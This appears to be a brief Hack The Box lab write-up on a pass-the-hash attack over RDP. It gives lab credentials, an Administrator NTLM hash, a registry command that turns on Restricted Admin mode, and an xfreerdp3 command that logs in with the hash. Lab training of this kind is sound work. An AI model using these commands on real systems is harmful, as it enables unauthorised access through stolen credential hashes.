



### Q.1 What is the name of the file that was left on the Desktop? (Format example: filename.txt)
```sh
xfreerdp3 /dynamic-resolution /cert:ignore /v:10.129.203.13 /u:htb-rdp /p:'HTBRocks!'
```

User: Administrator
Hash: 0E14B9D6330BF16C30B1924111104824


### Q.2 Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?
DisableRestrictedAdmin

```sh
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```



### Q. 3 Connect via RDP with the Administrator account and submit the flag.txt as you answer.
```sh
xfreerdp3 /dynamic-resolution /cert:ignore /v:10.129.203.13 /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824
```



